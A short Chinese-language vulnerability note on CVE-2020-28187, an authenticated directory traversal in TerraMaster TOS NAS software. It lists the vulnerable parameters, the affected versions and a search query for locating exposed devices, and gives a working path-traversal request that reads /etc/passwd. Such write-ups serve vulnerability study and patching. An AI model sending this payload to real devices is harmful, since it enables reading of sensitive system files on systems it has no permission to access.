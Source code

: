 # 

# TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

```
TerraMaster TOS < 4.2.06
```

## 网络测绘

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登陆后访问，验证漏洞的POC为



```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```



![](./images/202202101948100.png)

